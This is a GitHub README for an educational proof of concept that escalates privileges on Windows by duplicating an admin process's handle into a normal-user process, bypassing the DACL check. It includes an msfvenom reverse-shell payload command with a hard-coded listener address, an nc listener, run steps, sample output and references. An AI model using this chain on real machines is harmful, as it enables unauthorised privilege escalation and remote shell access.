 # BypassDACL

PoC for Bypassing DACL in Windows using DuplicateHandle.

Read more about this code: [Security of Handles in Windows](https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb).

This code demonstrates how to create a security hole in your program, potentially leading to privilege escalation.

**Note: This is a Proof of Concept (PoC) and is for educational purposes only.**

## Running the Code

### Generate Shellcode for AttackerPE.exe and run listener

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
nc -lvvp 443
```

Copy the generated shellcode into `AttackerSource.cpp` and compile it.
```C
unsigned char shellcode[] = "";
```

### Steps to Execute

1. Run `powershell.exe` with Admin privileges.
2. Run `notepad.exe` with normal user privileges.
3. Run `vendor.exe` with Admin privileges.

```
Vendor.exe
Enter the Process name that you want to get Handle (e.g., powershell.exe): powershell.exe
Enter the target Process name (e.g., notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe: 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe, then find a handle named powershell.exe
and write the address of the handle in AttackerPE code...
[*] Sleep(INFINITE). After running AttackerPE.exe, press Ctrl+C to exit.
```

4. Open **procexp64.exe** and copy the address of the handle (powershell.exe) from **notepad.exe**.
5. Run `AttackerPE.exe` with normal user privileges.

```sh
AttackerPE.exe <address> <process name>
AttackerPE.exe 0xFFFFB08D881EE080 notepad.exe
```

## Duplicate Handle and Bypass DACL Check (Core concept)

Duplicating a handle in the source process requires that the source process already has that handle, meaning the **DACL was checked** once during the handle's **Creation/Opening**. When duplicating a handle from the source to the destination process, no security checks are performed, It means that even the SID of the destination process is not checked with DACL.

![Diagram](https://github.com/mehrshadmollaafzal/BypassDACL/blob/main/Diagram.jpg)

## **References**

 [MSDN_DuplicateHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[security-briefs-exploring-handle-security-in-windows](https://learn.microsoft.com/en-us/archive/msdn-magazine/2000/march/security-briefs-exploring-handle-security-in-windows)

[process-security-and-access-rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

[DACLs_and_ACEs](https://learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)

Windows Internals Books

Windows Kernel Programming Book
